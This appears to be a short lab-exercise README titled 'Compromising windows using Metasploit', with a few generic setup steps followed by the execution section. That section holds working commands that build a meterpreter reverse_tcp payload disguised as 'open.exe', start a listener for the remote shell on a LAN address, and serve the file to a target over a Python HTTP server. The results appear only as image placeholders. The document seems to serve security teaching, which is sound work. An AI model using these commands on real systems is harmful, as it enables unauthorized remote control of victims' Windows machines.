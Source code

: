 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.66.29 LPORT=1234 --platform=windows -f exe>open.exe```

```msfconsole -q```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```use exploit/multi/handler```

```set LHOST 192.168.66.29```

```set LPORT 1234```

```run```
## OUTPUT
![alt text](<win hack.png>)

```python3 -m http.server 5678```

### OUTPUT:

![alt text](host.png)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
